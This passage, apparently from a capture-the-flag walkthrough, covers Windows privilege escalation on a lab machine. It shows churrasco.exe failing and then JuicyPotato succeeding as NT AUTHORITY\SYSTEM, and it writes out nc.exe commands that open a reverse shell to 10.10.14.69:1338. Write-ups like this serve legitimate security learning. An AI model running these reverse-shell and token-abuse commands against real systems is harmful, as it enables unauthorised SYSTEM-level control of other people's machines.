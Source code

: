And I noticed that I have to specify the whole binary path to execute them. 

```
PS C:\windows\temp> C:\windows\temp\churrasco.exe -d "nc.exe 10.10.14.69 1338 -e cmd.exe"
/churrasco/-->Current User: merlin
/churrasco/-->Process is not running under NETWORK SERVICE account!
/churrasco/-->Getting NETWORK SERVICE token ...
/churrasco/-->Couldn't find NETWORK SERVICE token
PS C:\windows\temp>
```

So now we can see that we don’t have access to the NETWORK SERVICE token to use churrasco.

I try the plink.exe smb port forward again, but it does hangs.

So maybe a good old juicypotato? 

I upload it with smb again and let’s look at what we need:

```
PS C:\windows\temp> C:\windows\temp\jp.exe
JuicyPotato v0.1

Mandatory args:
-t createprocess call: <t> CreateProcessWithTokenW, <u> CreateProcessAsUser, <*> try both
-p <program>: program to launch
-l <port>: COM server listen port


Optional args:
-m <ip>: COM server listen address (default 127.0.0.1)
-a <argument>: command line argument to pass to program (default NULL)
-k <ip>: RPC server ip address (default 127.0.0.1)
-n <port>: RPC server listen port (default 135)
-c <{clsid}>: CLSID (default BITS:{4991d34b-80a1-4291-83b6-3328366b9097})
-z only test CLSID and print token's user
PS C:\windows\temp>
```

And helped by https://book.hacktricks.xyz/windows/windows-local-privilege-escalation/juicypotato we can figure out what we need to input here.

And with a simple:

```
PS C:\windows\temp> C:\windows\temp\jp.exe -l 1337 -p c:\windows\system32\cmd.exe -a "/c C:\windows\temp\nc.exe -e cmd.exe 10.10.14.69 1338" -t *
Testing {4991d34b-80a1-4291-83b6-3328366b9097} 1337
....
[+] authresult 0
{4991d34b-80a1-4291-83b6-3328366b9097};NT AUTHORITY\SYSTEM

[+] CreateProcessWithTokenW OK
PS C:\windows\temp>
```

Listener:
